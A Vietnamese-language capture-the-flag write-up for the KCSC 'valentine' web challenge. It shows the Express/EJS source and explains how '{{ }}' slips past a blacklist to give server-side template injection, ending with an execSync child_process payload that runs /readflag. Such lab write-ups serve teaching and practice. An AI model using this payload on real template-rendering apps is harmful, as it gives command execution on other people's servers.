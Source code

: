 # valentine (stolen)

![upload_7e02a0fe61c53ada082c61a471ed4335.png (603×591) (hackmd-prod-images.s3-ap-northeast-1.amazonaws.com)](./assets/upload_7e02a0fe61c53ada082c61a471ed4335.png)

url: https://valentine.kcsc.tf/
wu: https://maoutis.github.io/writeups/Web%20Hacking/valentine/
Challenge cho mình source code như sau:

```
.
├── public
│   ├── Dockerfile
│   ├── app.js
│   ├── docker-compose.yml
│   ├── flag.txt
│   ├── index.html
│   ├── package.json
│   └── readflag
└── public.zip
```

Ở trong file `Dockerfile` cho mình biết flag nằm trong file `flag.txt` đã được copy đến root path cùng với file binary là `readflag`, file này được dùng để thực thi việc đọc flag

```dockerfile
# see docker-compose.yml

FROM node:lts-alpine
ENV NODE_ENV=production
WORKDIR /app

COPY package.json app.js index.html /app/
COPY flag.txt readflag /
RUN npm install

RUN mkdir views
RUN chown node:node views

RUN chown root:root /flag.txt && chmod 400 /flag.txt
RUN chown root:root /readflag && chmod 4555 /readflag

EXPOSE 3000

USER node
CMD node app.js
```

source code trong file `app.js`

```javascript
var express = require('express');
var bodyParser = require('body-parser')
const crypto = require("crypto");
var path = require('path');
const fs = require('fs');

var app = express();
viewsFolder = path.join(__dirname, 'views');

if (!fs.existsSync(viewsFolder)) {
  fs.mkdirSync(viewsFolder);
}

app.set('views', viewsFolder);
app.set('view engine', 'ejs');

app.use(bodyParser.urlencoded({ extended: false }))

app.post('/template', function (req, res) {
  let tmpl = req.body.tmpl;
  let blacklist = ['<%', '%>', '[.', '.]', '(.', '.)', '{.', '.}', ',', '?', '!', '@', '#', '$', '%', '^', '&', '*', '-', '\\'] // safed keke
  blacklist.forEach(e => {
    if (tmpl.includes(e)) {
      res.status(400).send({ message: "don't hack me" })
    }
  })
  if (tmpl.includes('{{ name }}')) {
    tmpl = tmpl.replace(/\{\{/g, '<%=')
    tmpl = tmpl.replace(/\}\}/g, '%>')
  } else {
    res.status(400).send({ message: "{{ name }} required!" })
  }
  let uuid;
  do {
    uuid = crypto.randomUUID();
  } while (fs.existsSync(`views/${uuid}.ejs`))

  try {
    fs.writeFileSync(`views/${uuid}.ejs`, tmpl);
  } catch (err) {
    res.status(500).send("Failed to write Valentine's card");
    return;
  }
  let name = req.body.name ?? '';
  return res.redirect(`/${uuid}?name=${name}`);
});

app.get('/:template', function (req, res) {
  let query = req.query;
  let template = req.params.template
  if (!/^[0-9A-F]{8}-[0-9A-F]{4}-[4][0-9A-F]{3}-[89AB][0-9A-F]{3}-[0-9A-F]{12}$/i.test(template)) {
    res.status(400).send("Not a valid card id")
    return;
  }
  if (!fs.existsSync(`views/${template}.ejs`)) {
    res.status(400).send('Valentine\'s card does not exist')
    return;
  }
  let parser = req._parsedUrl.query.split('&')
  for (let e of parser) {
    if (e.startsWith('settings')) {
      res.status(400).send('Don\'t cheatt')
    }
  }
  if (!query['name']) {
    query['name'] = ''
  }
  return res.render(template, query);
});

app.get('/', function (req, res) {
  return res.sendFile('./index.html', { root: __dirname });
});

app.listen(process.env.PORT || 3000);
```

Giao diện trang web này giống với challenge vallentine của giải `hxp 2022` mà mình đã để wu ở trên. Chương trình cho phép mình nhập vào một template và name

![upload_de605231fc16060662c614ce96eafbee.png (1074×676) (hackmd-prod-images.s3-ap-northeast-1.amazonaws.com)](./assets/upload_de605231fc16060662c614ce96eafbee.png)
![upload_6c398e913de6b2711d4491ff43f0a38e.png (351×76) (hackmd-prod-images.s3-ap-northeast-1.amazonaws.com)](./assets/upload_6c398e913de6b2711d4491ff43f0a38e.png)

Khi submit thì chương trình sẽ redirect mình đến một trang web tương ứng với template và name mà mình đã nhập vào
![upload_9c729615d8fb5baddf9c19a59a0123e8.png (997×458) (hackmd-prod-images.s3-ap-northeast-1.amazonaws.com)](./assets/upload_9c729615d8fb5baddf9c19a59a0123e8.png)

Tới đây mình cũng có thể đoán được challenge này là lỗi SSTI, mục tiêu của mình là RCE để thực thi file `/readflag`

Có thể thấy trong `app.js`, chương trình đã filter tmpl bằng blacklist để mình không thể inject vào template các chuỗi độc hại được nữa, vậy nên mình không thể làm theo như writeup trên được nữa

```javascript
  let tmpl = req.body.tmpl;
  let blacklist = ['<%', '%>', '[.', '.]', '(.', '.)', '{.', '.}', ',', '?', '!', '@', '#', '$', '%', '^', '&', '*', '-', '\\'] // safed keke
  blacklist.forEach(e => {
    if (tmpl.includes(e)) {
      res.status(400).send({ message: "don't hack me" })
    }
  })
```

Sau đó chương trình thực hiện kiểm tra chuỗi `'{{ name }}'` có tồn tại trong tmpl hay không, nếu có thì chương trình thực hiện thay thế `{{` bằng `<%=` và `}}` bằng `%>` nên đoạn name này có thể thực thi được như mình đã nói ở trên

```javascript
  if (tmpl.includes('{{ name }}')) {
    tmpl = tmpl.replace(/\{\{/g, '<%=')
    tmpl = tmpl.replace(/\}\}/g, '%>')
  } else {
    res.status(400).send({ message: "{{ name }} required!" })
  }
```

Có thể thấy là blacklist không filter `{{ }}` mà sau đó là thực hiện thay thế 2 chuỗi trên thành 2 chuỗi khác có thể thực thi được, từ đây mình sẽ sửa payload RCE của mình bằng 2 chuỗi không bị filter kia để sau khi replace thì chương trình vẫn thực thi bình thường
payload:

```
{{ name }} </br>
{{ process.mainModule.require('child_process').execSync('/readflag').toString() }} 
```

![upload_d0c2bb331ee1d87cb922d30297fa10d2.png (1048×307) (hackmd-prod-images.s3-ap-northeast-1.amazonaws.com)](./assets/upload_d0c2bb331ee1d87cb922d30297fa10d2.png)

Kết quả
![upload_632d2c3e1c758461dfaef9f499e04cb3.png (912×182) (hackmd-prod-images.s3-ap-northeast-1.amazonaws.com)](./assets/upload_632d2c3e1c758461dfaef9f499e04cb3.png)

`Flag: KCSC{https://www.youtube.com/watch?v=A5OLaBlQP9I}`